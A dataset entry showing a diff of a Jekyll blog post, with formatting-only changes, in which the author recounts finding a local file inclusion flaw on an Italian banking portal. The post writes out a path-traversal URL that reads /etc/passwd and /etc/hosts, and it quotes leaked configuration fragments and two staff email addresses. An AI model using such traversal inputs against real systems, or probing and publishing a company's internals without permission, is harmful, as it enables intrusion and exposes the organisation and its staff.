

Before and after one commit to fnzv/fnzv.github.io, a Jekyll site: the page built from _posts/2017-08-09-how-i-found-an-lfi.markdown, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (314-954 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2017-08-09-how-i-found-an-lfi.markdown
+++ b/_posts/2017-08-09-how-i-found-an-lfi.markdown
@@ -4,11 +4,10 @@ title: How i found an LFI vulnerability on a major banking site
 layout: post
 ---
 Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
-As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day <br>
-from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so<br>
-i tried out the good'old LFI to be sure that everything was safe and configured correctly... Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
+As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so i tried out the good'old LFI to be sure that everything was safe and configured correctly...  <br>
+Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
 <br>
-# Created by anaconda<br>
+ Created by anaconda<br>
 <br>
 Users And Groups Exposed<br>
 <br>
@@ -31,14 +30,14 @@ of an entire DC.<br>
 But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
 <br>
 ##########################<br>
-##     ATTENZIONE !!<br>
+#####ATTENZIONE !!<br>
 ##<br>
-## FILE GESTITO DA PUPPET<br>
-## NON MODIFICARE A MANO<br>
+##FILE GESTITO DA PUPPET<br>
+##NON MODIFICARE A MANO<br>
 ###########################<br>
 #<br>
 ###########<br>
-# VERONA<br>
+ VERONA<br>
 ###########<br>
 options timeout:1 attempts:1<br>
 search servizi *.group *.group *.zserver *.nexus<br>
@@ -55,10 +54,10 @@ nameserver *.*.140.25<br>
 <br>
 Wow... we are dealing with a DevOpser (a Master of Puppet)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
 So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br>
-# trap decode to catch security attacks<br>
+#trap decode to catch security attacks<br>
 decode:		root<br>
 <br>
-# Person who should get root's mail<br>
+#Person who should get root's mail<br>
 #root:		marc<br>
 #root:		fabian.adam@mpbcorp-address.it,frank.life@mpbcorp-address.it <br>
 <br>
```
